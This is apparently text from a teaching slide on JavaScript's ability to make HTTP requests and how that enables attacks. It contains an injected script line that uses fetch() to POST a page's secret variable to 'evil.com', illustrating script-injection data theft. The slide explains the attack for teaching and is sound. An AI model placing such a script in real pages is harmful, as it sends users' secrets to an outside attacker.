

# Features of JavaScript
Make HTTP requests
HTML (with embedded JavaScript)
<script>int secret = 42;</script>

...

<script>fetch('https://evil.com/receive',{method:'POST', body: secret})</script>
Suppose the server returns some HTML with a secret JavaScript variable.
If the attacker somehow adds this JavaScript, the browser will send a POST request to the attacker’s server with the secret.
43